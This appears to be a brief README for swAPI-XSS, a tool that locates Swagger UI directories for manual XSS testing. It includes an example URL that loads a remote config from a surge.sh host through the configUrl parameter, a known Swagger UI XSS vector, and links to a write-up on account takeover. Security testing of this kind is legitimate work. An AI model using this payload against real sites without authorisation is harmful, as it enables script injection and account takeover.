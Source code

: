 #### swAPI-XSS to find swagger api directories and test manually for potential XSS vulnerability

##### Example:
#####  https://www.target.com/swagger-ui/index.html?configUrl=https://jumpy-floor.surge.sh/test.json


[Click here to read about the swagger API XSS](https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/)
